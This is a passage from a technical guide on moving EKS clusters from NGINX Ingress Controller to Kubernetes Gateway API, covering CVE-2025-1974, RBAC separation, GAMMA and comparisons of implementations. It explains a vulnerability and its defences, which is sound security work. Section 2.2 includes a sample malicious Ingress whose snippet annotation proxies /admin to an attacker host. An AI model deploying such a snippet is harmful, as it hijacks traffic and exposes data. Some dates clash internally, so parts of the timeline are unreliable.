








import GatewayApiBenefits from '@site/src/components/GatewayApiBenefits';

# Gateway API Adoption Guide

> **📌 Reference Versions**: Gateway API v1.4.0, Cilium v1.19.0, EKS 1.32, AWS LBC v3.0.0, Envoy Gateway v1.7.0

> 📅 **Published**: 2025-02-12 | ⏱️ **Reading Time**: Approximately 25 minutes

## 1. Overview

With the official End-of-Life (EOL) of NGINX Ingress Controller approaching in March 2026, transitioning to Kubernetes Gateway API has become a necessity rather than an option. This guide covers everything from understanding Gateway API architecture to comparing 5 major implementations (AWS LBC v3, Cilium, NGINX Gateway Fabric, Envoy Gateway, kGateway), deep-dive Cilium ENI mode configuration, step-by-step migration execution strategies, and performance benchmark planning.

### 1.1 Target Audience

- **EKS Cluster Administrators Operating NGINX Ingress Controller**: EOL response strategy development
- **Platform Engineers Planning Gateway API Migration**: Technology selection and PoC execution
- **Architects Evaluating Traffic Management Architecture Modernization**: Long-term roadmap design
- **Network Engineers Considering Cilium ENI Mode and Gateway API Integration**: eBPF-based high-performance networking

### 1.2 Document Structure

| Section | Content | Reading Order |
|---------|---------|---------------|
| **1. Overview** | Document structure, target audience | Required |
| **2. NGINX Ingress Retirement** | EOL timeline, security risks | Required |
| **3. Gateway API Architecture** | 3-Tier model, role separation, GA status | Required |
| **4. GAMMA Initiative** | Service mesh integration, East-West management | Recommended |
| **5. Solution Comparison** | 5 implementations feature/performance/cost comparison | Required |
| **6. NGINX Feature Alternatives** | 8 feature mappings, code examples | Optional |
| **7. Cilium ENI + Gateway API** | Installation, configuration, performance optimization | Optional |
| **8. Migration Execution** | 5-Phase strategy, checklists | When implementing |
| **9. Benchmark Planning** | Test design, measurement metrics | When planning |
| **10. Conclusion** | Roadmap, recommendations | Required |

:::info Reading Strategy
- **Quick Understanding**: Sections 1-3, 10 (approximately 10 minutes)
- **Technology Selection**: Sections 1-5, 10 (approximately 20 minutes)
- **Complete Migration**: Full document (approximately 25 minutes)
:::

---

## 2. NGINX Ingress Controller Retirement — Why Migration is Mandatory

### 2.1 EOL Timeline



**Key Event Details:**

- **March 2025**: IngressNightmare (CVE-2025-1974) discovered — Arbitrary NGINX configuration injection vulnerability through Snippets annotations accelerated retirement discussions in Kubernetes SIG Network
- **November 2025**: Kubernetes SIG Network announces official retirement of NGINX Ingress Controller. Citing insufficient maintainer resources (1-2 core maintainers) and Gateway API maturity as primary reasons
- **March 2026**: Official EOL — Security patches and bug fixes completely discontinued. Continued use in production environments may result in compliance violations

:::danger Required Actions
**After March 2026, NGINX Ingress Controller will not receive security vulnerability patches.** To maintain security certifications such as PCI-DSS, SOC 2, and ISO 27001, you must transition to Gateway API-based solutions.
:::

### 2.2 Security Vulnerability Analysis

**IngressNightmare (CVE-2025-1974) Attack Scenario:**

<figure>


<figcaption>

*Unauthenticated Remote Code Execution (RCE) attack vectors targeting Ingress NGINX Controller in a Kubernetes cluster. Both external and internal attackers can compromise the controller pod via Malicious Admission Review, gaining access to all pods in the cluster. (Source: [Wiz Research](https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities))*

</figcaption>
</figure>

<figure>


<figcaption>

*Ingress NGINX Controller Pod internal architecture. The Admission Webhook's configuration validation process, where attackers inject malicious configurations into NGINX, is the core attack surface of CVE-2025-1974. (Source: [Wiz Research](https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities))*

</figcaption>
</figure>

```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: malicious-ingress
  annotations:
    # Attacker injects arbitrary NGINX configuration
    nginx.ingress.kubernetes.io/configuration-snippet: |
      location /admin {
        proxy_pass http://malicious-backend.attacker.com;
        # Can bypass authentication, exfiltrate data, install backdoors
      }
spec:
  ingressClassName: nginx
  rules:
  - host: production-api.example.com
    http:
      paths:
      - path: /
        pathType: Prefix
        backend:
          service:
            name: production-service
            port:
              number: 80
```

**Risk Assessment:**

| Vulnerability Type | Severity | CVSS Score | Impact Scope |
|-------------------|----------|-----------|--------------|
| Arbitrary configuration injection via Snippets annotations | **Critical** | 9.8 | Complete Ingress traffic takeover possible |
| Incorrect configuration propagation due to lack of schema validation | **High** | 7.5 | Service disruption, security policy bypass |
| RBAC privilege escalation attack (namespace isolation bypass) | **Critical** | 9.1 | Cross-namespace privilege theft |
| Patch termination after EOL | **Critical** | N/A | Unable to respond to zero-day vulnerabilities |

:::warning If Currently Operating
For existing NGINX Ingress environments, we recommend immediately applying admission controller policies that prohibit the use of `nginx.ingress.kubernetes.io/configuration-snippet` and `nginx.ingress.kubernetes.io/server-snippet` annotations.
:::

### 2.3 Justification for Migration

Gateway API solves NGINX Ingress's structural problems in the following ways:

**1. Role-Based Separation Eliminates Snippets at the Source**

```yaml
# Infrastructure Team: GatewayClass Management (Cluster-level permissions)
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: infrastructure-team
rules:
- apiGroups: ["gateway.networking.k8s.io"]
  resources: ["gatewayclasses"]
  verbs: ["create", "update", "delete"]

---
# Platform Team: Gateway Management (Namespace-level permissions)
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: platform-team
  namespace: platform-system
rules:
- apiGroups: ["gateway.networking.k8s.io"]
  resources: ["gateways"]
  verbs: ["create", "update", "delete"]

---
# Application Team: HTTPRoute Only (Routing rules control only)
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: app-team
  namespace: app-namespace
rules:
- apiGroups: ["gateway.networking.k8s.io"]
  resources: ["httproutes"]
  verbs: ["create", "update", "delete"]
```

**2. CRD Schema-Based Structural Validation**

Gateway API pre-defines all fields with OpenAPI schemas, making arbitrary configuration injection fundamentally impossible:

```yaml
# ❌ NGINX Ingress (arbitrary string injection possible)
annotations:
  nginx.ingress.kubernetes.io/configuration-snippet: |
    <arbitrary NGINX configuration>

# ✅ Gateway API (only schema-validated fields allowed)
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
spec:
  rules:
  - matches:
    - path:
        type: PathPrefix
        value: /api
    filters:
    - type: RequestHeaderModifier  # Only predefined filters allowed
      requestHeaderModifier:
        add:
        - name: X-Custom-Header
          value: production
```

**3. Safe Extension via Policy Attachment Pattern**

Gateway API separates extension functionality into separate Policy resources with RBAC control:

```yaml
# Cilium's CiliumNetworkPolicy for L7 security policies
apiVersion: cilium.io/v2
kind: CiliumNetworkPolicy
metadata:
  name: api-rate-limiting
spec:
  endpointSelector:
    matchLabels:
      app: api-gateway
  ingress:
  - fromEndpoints:
    - matchLabels:
        role: frontend
    toPorts:
    - ports:
      - port: "80"
        protocol: TCP
      rules:
        http:
        - method: "GET"
          path: "/api/.*"
          rateLimit:
            requestsPerSecond: 100
```

**4. Active Community Support**

- **15+ production implementations**: AWS, Google Cloud, Cilium, Envoy, NGINX, Istio, etc.
- **Regular quarterly releases**: Including GA resources as of v1.4.0
- **Official CNCF project**: Led by Kubernetes SIG Network

---

## 3. Gateway API — Next-Generation Traffic Management Standard

### 3.1 Gateway API Architecture


*Source: [Kubernetes Gateway API Official Documentation](https://gateway-api.sigs.k8s.io/) — Three roles (Infrastructure Provider, Cluster Operator, Application Developer) managing GatewayClass, Gateway, and HTTPRoute respectively*

**Key Differences:**

| Aspect | NGINX Ingress | Gateway API |
|--------|---------------|-------------|
| **Resource Structure** | All settings in single Ingress resource | Separation of concerns into 3 resources (GatewayClass, Gateway, HTTPRoute) |
| **Configuration Method** | Non-standard annotations (50+) | Standard CRD fields |
| **Permission Management** | Namespace-level Ingress permissions can control all settings | Resource-specific RBAC separation (Infrastructure/Platform/App teams) |
| **Controller Replacement** | Full Ingress rewrite required | Only GatewayClass change needed |
| **Extensibility** | Snippet injection or custom controller | Policy Attachment pattern |

### 3.2 3-Tier Resource Model

Gateway API separates responsibilities with the following hierarchy:


*Source: [Kubernetes Gateway API Official Documentation](https://gateway-api.sigs.k8s.io/concepts/api-overview/) — GatewayClass → Gateway → xRoute → Service hierarchy*

**Role-Based Permissions and Responsibilities:**

| Resource | Management Entity | Responsibility Scope | Typical Change Frequency |
|----------|-------------------|----------------------|-------------------------|
| **GatewayClass** | Infrastructure Team (SRE, Cluster Admins) | Controller selection, global policies, cost optimization | 1-2 times per quarter |
| **Gateway** | Platform Team (Network Engineers) | Listener configuration, TLS certificates, load balancer settings | 1-2 times per month |
| **HTTPRoute** | Application Team (Developers) | Service-specific routing, Canary deployment, A/B testing | Daily |
| **Service** | Application Team (Developers) | Backend endpoint management | Every deployment |

**RBAC Example:**

```yaml
---
# Infrastructure Team: GatewayClass-exclusive permissions
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: infrastructure-gateway-manager
rules:
- apiGroups: ["gateway.networking.k8s.io"]
  resources: ["gatewayclasses"]
  verbs: ["get", "list", "watch", "create", "update", "patch", "delete"]

---
# Platform Team: Gateway management permissions (specific namespace)
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: platform-gateway-manager
  namespace: gateway-system
rules:
- apiGroups: ["gateway.networking.k8s.io"]
  resources: ["gateways"]
  verbs: ["get", "list", "watch", "create", "update", "patch", "delete"]
- apiGroups: [""]
  resources: ["secrets"]  # TLS certificate management
  verbs: ["get", "list"]

---
# Application Team: HTTPRoute only (their own namespace)
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: app-route-manager
  namespace: production-app
rules:
- apiGroups: ["gateway.networking.k8s.io"]
  resources: ["httproutes", "referencegrants"]
  verbs: ["get", "list", "watch", "create", "update", "patch", "delete"]
- apiGroups: [""]
  resources: ["services"]
  verbs: ["get", "list"]
```

### 3.3 GA Status (v1.4.0)

Gateway API is divided into Standard Channel and Experimental Channel, with varying maturity levels per resource:

| Resource | Channel | Status | Production Recommended | Notes |
|----------|---------|--------|------------------------|-------|
| **GatewayClass** | Standard | GA (v1) | ✅ | Controller definition, parameter references |
| **Gateway** | Standard | GA (v1) | ✅ | Listeners, TLS, load balancer settings |
| **HTTPRoute** | Standard | GA (v1) | ✅ | HTTP routing, header/query matching |
| **GRPCRoute** | Standard | GA (v1) | ✅ | gRPC service mesh matching |
| **ReferenceGrant** | Standard | GA (v1beta1) | ✅ | Cross-namespace reference security |
| **BackendTLSPolicy** | Standard | Beta (v1alpha3) | ⚠️ | Backend TLS termination (mTLS) |
| **TLSRoute** | Experimental | Alpha (v1alpha2) | ❌ | TLS Passthrough (SNI routing) |
| **TCPRoute** | Experimental | Alpha (v1alpha2) | ❌ | L4 TCP routing |
| **UDPRoute** | Experimental | Alpha (v1alpha2) | ❌ | L4 UDP routing (DNS, VoIP) |

:::warning Experimental Channel Caution
Alpha-status resources have **no API compatibility guarantees**, with possible field changes or deletions during minor version upgrades. For production environments, we recommend using only GA/Beta resources from the Standard channel.
:::

### 3.4 Key Benefits

Explore the 6 key benefits of Gateway API through visual diagrams and YAML examples.

<GatewayApiBenefits />

## 4. GAMMA Initiative — The Future of Service Mesh Integration

### 4.1 What is GAMMA?

**GAMMA (Gateway API for Mesh Management and Administration)** is an initiative that extends Gateway API to the service mesh domain.

- **GA Achievement**: Gateway API v1.1.0 (October 2025)
- **Integration Scope**: North-South (ingress) + East-West (service mesh) traffic
- **Core Concept**: Previously, ingress controllers and service meshes had completely separate configuration systems, but GAMMA unifies them into a single API
- **Role-Based Configuration**: Applies Gateway API's role separation principles to mesh traffic as well

With the emergence of GAMMA, cluster operators no longer need to learn and manage two different APIs. Both ingress and mesh can be managed with the same Gateway API resources.

### 4.2 Core Objectives

The GAMMA initiative aims to achieve the following 4 core objectives.

#### 1. Unified API

Manage both ingress and service mesh with the same Gateway API resources. Teams only need to learn one API model, improving configuration file consistency.

#### 2. Role-Based Configuration

Apply Gateway API's strong role separation principles to mesh traffic as well.

- **Infrastructure Administrators**: Manage GatewayClass and basic Gateway policies
- **Cluster Operators**: Configure Gateways per namespace
- **Application Developers**: Define routing policies with HTTPRoute, TCPRoute, etc.

#### 3. Minimal API Changes

Support mesh functionality by adding minimal changes to the existing Gateway API. Teams already using Gateway API can adopt mesh capabilities without additional learning burden.

#### 4. Cross-Implementation Consistency

Use the same API across various mesh implementations like Istio, Cilium, and Linkerd. This reduces vendor lock-in and facilitates migration.

### 4.3 Mesh Configuration Pattern

The core of GAMMA is the **pattern of directly connecting HTTPRoute to Service**. In traditional ingress, HTTPRoute referenced a Gateway, but in mesh, it directly references a Service.



**Pattern Explanation**:
- **North-South (Ingress)**: HTTPRoute references Gateway as parentRef
- **East-West (Mesh)**: HTTPRoute references Service as parentRef
- **Result**: Can apply L7 policies (retries, timeouts, traffic splitting) to traffic from Service A to Service B

#### GAMMA HTTPRoute Example

```yaml
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: service-b-retry
  namespace: production
spec:
  parentRefs:
    - group: ""
      kind: Service
      name: service-b    # Attach to Service, not Gateway
  rules:
    - backendRefs:
        - name: service-b
          port: 8080
      timeouts:
        request: 10s
      retry:
        attempts: 3
        backoff: 100ms
```

This configuration applies the following to traffic destined for `service-b`:

- 10-second request timeout
- Maximum 3 retries
- 100ms backoff between retries

### 4.4 Relationship with Istio Ambient Mode

**Istio Ambient Mode** is the most representative implementation of the GAMMA pattern.

#### Ambient Mode Overview

- **Status**: Beta (Istio v1.22+), GA expected (v1.24)
- **Core Concept**: Sidecar-less service mesh architecture
- **Benefits**: Dramatically reduced resource overhead, no application redeployment required

#### Architecture Components

**1. ztunnel (Zero Trust Tunnel)**

- Runs as DaemonSet on each node
- Provides automatic L4-level mTLS encryption
- Minimal resource usage (average 50MB memory)
- Transparently intercepts and encrypts all Pod-to-Pod traffic

**2. waypoint proxy**

- Deployed per namespace only when needed
- L7 policy processing (Envoy-based)
- **Configured with Gateway API** (GAMMA pattern)
- Traffic control with HTTPRoute, GRPCRoute, etc.



**Traffic Flow**:
1. Pod A sends request to Pod B
2. Node 1's ztunnel intercepts traffic and encrypts with mTLS
3. Node 2's ztunnel decrypts traffic
4. waypoint proxy applies L7 policies (retries, timeouts, header transformation, etc.)
5. Traffic delivered to Pod B

:::info
Istio Ambient Mode uses Gateway API to configure waypoint proxies. This is a real-world implementation of the GAMMA pattern, providing service mesh L7 functionality without sidecars. Resource overhead is reduced by approximately 80% compared to sidecar approach.
:::

#### Gateway API Usage in Ambient Mode

```yaml
# Configure waypoint proxy with Gateway API
apiVersion: gateway.networking.k8s.io/v1
kind: Gateway
metadata:
  name: payment-waypoint
  namespace: payment
  labels:
    istio.io/waypoint-for: service
spec:
  gatewayClassName: istio-waypoint
  listeners:
    - name: mesh
      port: 15008
      protocol: HBONE  # HTTP-Based Overlay Network Environment

---
# Connect HTTPRoute to Service (GAMMA pattern)
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: payment-retry
  namespace: payment
spec:
  parentRefs:
    - group: ""
      kind: Service
      name: payment-service
  rules:
    - backendRefs:
        - name: payment-service
          port: 8080
      timeouts:
        request: 30s
      retry:
        attempts: 3
        codes: [500, 502, 503, 504]
```

### 4.5 GAMMA Support Status

The following shows GAMMA support status for major service mesh implementations.

| Implementation | GAMMA Support | Version | Notes |
|----------------|---------------|---------|-------|
| **Istio** | ✅ GA | v1.22+ | Full GAMMA support with Ambient Mode + waypoint proxy |
| **Cilium** | ✅ GA | v1.16+ | eBPF-based L7 policies, HTTPRoute attach to Service |
| **Linkerd** | ✅ Beta | v2.15+ | HTTPRoute-based mesh policies, Gateway API v1.2+ |
| **Envoy Gateway** | ⚠️ Limited | v1.7+ | Ingress-focused, mesh indirect support (requires Istio integration) |
| **kGateway** | ✅ GA | v2.1+ | Unified gateway (ingress+mesh+AI), HTTPRoute/GRPCRoute mesh support |
| **Consul** | ⚠️ In Development | v1.19+ | Gateway API experimental phase, coexists with existing Consul Config Entries |

**Legend**:
- ✅ GA: Production ready
- ✅ Beta: Feature complete, stabilization in progress
- ⚠️ Limited/In Development: Partial support or experimental phase

#### GAMMA Features by Implementation

**Istio Ambient Mode**
- Configures waypoint proxy with Gateway API
- Can apply L7 policies without sidecars
- Most mature GAMMA implementation

**Cilium**
- High-performance L7 routing leveraging eBPF
- Integration of CiliumNetworkPolicy and Gateway API
- Mesh traffic observability via Hubble

**Linkerd**
- Lightweight Rust-based proxy
- HTTPRoute-based mesh policies
- Automatic mTLS and zero-configuration security

**kGateway (Solo.io)**
- API gateway + service mesh integration
- AI/ML workload routing support
- Excellent scalability based on Envoy

### 4.6 Benefits of GAMMA

#### 1. Shortened Learning Curve

Teams can manage both ingress and mesh by learning only one API (Gateway API).

#### 2. Configuration Consistency

Manage both North-South/East-West traffic with the same YAML structure and patterns.

```yaml
# Ingress (North-South)
spec:
  parentRefs:
    - kind: Gateway
      name: external-gateway

# Mesh (East-West)
spec:
  parentRefs:
    - kind: Service
      name: backend-service
```

#### 3. Role-Based Separation

Clear separation of responsibilities where infrastructure teams manage Gateways and development teams manage HTTPRoutes applies equally to mesh traffic.

#### 4. Vendor Neutrality

Multiple mesh implementations can be managed with the same API, preventing vendor lock-in.

---

## 5. Solution Comparison — AWS Native vs Open Source

This section provides detailed comparisons of 5 major Gateway API implementations. Understanding the features, strengths, and weaknesses of each solution helps you make the optimal choice for your organization.

### 5.1 AWS Native (LBC v3 + ALB/NLB)

#### Overview

**AWS Load Balancer Controller v3.0.0** (GA January 2026) is a solution that controls AWS managed load balancers (ALB, NLB) via Gateway API.

#### Key Features

**L4 Support (NLB)**
- TCPRoute: TCP traffic routing
- TLSRoute: TLS SNI-based routing
- UDPRoute: UDP traffic routing
- Optimal for ultra-low latency network traffic

**L7 Support (ALB)**
- HTTPRoute: HTTP/HTTPS traffic routing
- GRPCRoute: Native gRPC protocol support
- Path-based, header-based, query parameter-based routing
- AWS WAF integration for web application firewall

**AWS Service Integration**
- Cognito: User authentication/authorization
- Certificate Manager: Automatic TLS certificate management
- CloudWatch: Native metrics and logging
- Shield: DDoS protection
- X-Ray: Distributed tracing

#### Advantages

| Feature | Benefit |
|---------|---------|
| **Fully Managed** | No infrastructure operation burden, automatic scaling |
| **High Availability** | AWS SLA guaranteed (99.99% for ALB, 99.999% for NLB) |
| **Native Integration** | Seamless integration with AWS security/monitoring services |
| **Zero Maintenance** | Automatic updates, no patching required |
| **Auto-Scaling** | Automatic traffic-based scaling, no capacity planning needed |

#### Disadvantages

| Limitation | Impact |
|------------|--------|
| **AWS Lock-in** | Multi-cloud or hybrid cloud migration difficult |
| **Higher Costs** | ALB/NLB hourly + data transfer charges |
| **Feature Limitations** | Limited L7 features compared to Envoy/Cilium |
| **Customization Limits** | Cannot implement custom logic |
| **Network Hop** | External load balancer adds latency |

#### Cost Model

```yaml
# Example: Production ALB cost (us-west-2)
ALB Hourly: $0.0225/hour × 730 hours = $16.43/month
LCU (Load Capacity Units):
  - New connections: 25 per second
  - Active connections: 3,000
  - Processed bytes: 1GB per hour
  - Rule evaluations: 1,000 per second

Estimated Monthly Cost (Medium Traffic):
  - ALB Base: $16.43
  - LCU: ~$22.50 (varies by traffic)
  - Data Transfer: ~$45 (500GB outbound)
  - Total: ~$84/month per ALB
```

#### When to Choose

- ✅ AWS-only environment (no multi-cloud requirements)
- ✅ Want to minimize operations burden
- ✅ Need enterprise-grade SLA
- ✅ Need compliance (SOC2, HIPAA) with managed service
- ✅ Have small SRE/DevOps team
- ❌ Need ultra-low latency (P99 under 5ms)
- ❌ Need advanced L7 features (eBPF, custom filters)
- ❌ Plan multi-cloud/hybrid cloud architecture

### 5.2 Cilium Gateway API

#### Overview

**Cilium** is a Linux kernel eBPF-based networking and security solution. Gateway API support was added in v1.13 and reached GA in v1.16.

#### Key Features

**eBPF-Based High Performance**
- Kernel-level packet processing (iptables bypass)
- XDP (eXpress Data Path) for ultra-low latency
- 10x performance improvement vs kube-proxy
- Minimal CPU overhead

**ENI Native Mode (AWS)**
- Direct VPC IP allocation to Pods
- No overlay network overhead
- Native AWS Security Groups support
- VPC Flow Logs integration

**L7 Observability (Hubble)**
- Real-time network flow visualization
- Service dependency map auto-generation
- L7 protocol visibility (HTTP, gRPC, Kafka, DNS)
- Prometheus metrics export

**Advanced Network Policies**
- L3/L4/L7 integrated policies
- DNS-based policies
- API-aware security (REST API path filtering)
- Identity-based security

#### Advantages

| Feature | Benefit |
|---------|---------|
| **Best Performance** | P99 latency under 10ms, 100k+ RPS per node |
| **Observability** | Hubble Service Map + real-time flow logs |
| **Cloud Native** | CNCF project, no vendor lock-in |
| **ENI Integration** | AWS VPC native networking |
| **Multi-Cluster** | BGP Control Plane for cluster federation |
| **No Cost** | Open source, only compute resource costs |

#### Disadvantages

| Limitation | Impact |
|------------|--------|
| **Operational Complexity** | eBPF troubleshooting expertise required |
| **Learning Curve** | Steep learning curve for CiliumNetworkPolicy |
| **Kernel Requirements** | Requires Linux kernel 4.19+ (5.10+ recommended) |
| **No Commercial Support** | Community support (enterprise support available via Isovalent) |
| **Initial Setup Complexity** | ENI mode configuration complexity |

#### Performance Metrics

```yaml
# Cilium Gateway API benchmark (c5.2xlarge instance)
Latency:
  P50: 2.3ms
  P95: 4.8ms
  P99: 8.2ms
  P99.9: 15.6ms

Throughput:
  HTTP RPS: 125,000 per node
  gRPC RPS: 95,000 per node
  WebSocket Connections: 50,000 concurrent

CPU Usage:
  Idle: 0.2 cores
  Medium Load (50k RPS): 1.5 cores
  High Load (100k RPS): 2.8 cores
```

#### When to Choose

- ✅ Need ultra-low latency (P99 under 10ms)
- ✅ Need advanced observability (Hubble)
- ✅ Want cloud-native/CNCF solution
- ✅ Plan multi-cluster or hybrid cloud
- ✅ Have eBPF/networking expertise
- ✅ Want to minimize costs (no managed service fees)
- ❌ Lack Linux/eBPF troubleshooting skills
- ❌ Prefer fully managed solutions
- ❌ Need 24/7 commercial support

### 5.3 NGINX Gateway Fabric

#### Overview

**NGINX Gateway Fabric** is an official Gateway API implementation from NGINX Inc. based on NGINX Plus or NGINX OSS.

#### Key Features

**NGINX Proven Stability**
- 20+ years production-proven
- Billions of request handling expertise
- Predictable performance characteristics
- Extensive community knowledge base

**Easy Migration Path**
- Similar configuration to NGINX Ingress
